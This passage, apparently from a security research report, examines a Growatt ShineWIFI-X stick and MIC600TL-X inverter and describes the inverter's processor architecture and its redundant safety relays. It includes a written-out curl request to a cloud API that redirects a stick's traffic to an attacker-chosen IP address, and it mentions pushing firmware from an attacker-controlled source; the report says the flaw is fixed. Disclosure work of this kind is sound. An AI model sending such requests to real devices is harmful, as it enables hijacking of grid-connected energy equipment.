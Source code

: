 Knowing that, a packet can be craftet, commanding the device to download and install a firmware from an attacker controlled source.

### Redirect the traffic to an attacker-controlled machine

A cloud API can be used to redirect the *device <> cloud* traffic from the ShineWIFI-X stick to *any* IP v4 address. Valid session cookies and the serial number of the targeted ShineWIFI-X stick are needed:

```
curl 'https://server.growatt.com/ftp.do' -H 'content-type: application/x-www-form-urlencoded; charset=UTF-8' -H 'cookie: JSESSIONID=X; SERVERID=X' -H 'user-agent: okhttp' --data-raw 'action=setDatalogParam&dataLogSn=XGDXXXXXXX&paramType=1&param_1=x.x.x.x&param_2=' 
```
> [!NOTE]
> Missing API authorization has been fixed.

After this command, the targeted ShineWIFI-X stick tries to connect to the given IP.

### Device Architecture

The Growatt MIC600TL-X inverter contains different processor systems. The "general purpose" processor is an arm based Gigadevice CPU (GD32F305VCT6). Most of the inverter related operations (switching on and off the transistors and relay, monitoring the voltages) are handled by a TI DSP TM320F28035. This DSP controls part of the critical operations via dedicated pins. On top of that, the Growatt MIC600TL-X implements an additional microcontroller (either STM32F042K4T6 OR Gigadevice GD32E230K4T6) called MCU in this report, which adds a redundant safety measure: there are two grid side relays in series. One is controlled by the TI DSP, the other by the MCU. 
The CPU communicates with the DSP via a galvanic isolated UART. The DSP communicates with the MCU via a SPI bus.
Here is a simplified block diagram of the device: 

![System](pics/block.png)
